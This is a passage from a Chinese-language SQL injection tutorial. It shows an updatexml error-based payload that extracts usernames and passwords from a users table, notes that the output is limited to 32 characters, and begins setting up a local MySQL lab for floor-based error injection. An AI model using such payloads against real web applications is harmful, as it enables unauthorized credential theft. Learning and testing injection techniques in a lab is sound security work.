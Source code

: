 通过这样的方式可以获取所有的用户名和密码

```sql
1' and updatexml(1,concat(0x7e,(select concat(0x23,user,0x3a,password,0x23) from users limit 0,1),0x7e),1) --+
```

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675301817694-85af5a2d-f20e-4a88-a3ec-4ab9899e5b31.png)

由于updatexml只能显示32位报错信息，所以此处显示不完整，下面的floor报错将没有限制字符限制。

## floor报错注入

为了弄清报错注入的原理，首先先创建了一个名为sqli的数据库，然后建表插入数据：

```sql
mysql> create database sqli;
mysql> create table user (
  id int(11) not null auto_increment primary key,
  name varchar(20) not null,
  pass varchar(32) not null
);

mysql> insert into user (name, pass) values ('admin', md5('admin')), ('guest', md5('guest'));
```

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675151896260-e0f4be58-5393-4282-8176-b39d5e24ae45.png)
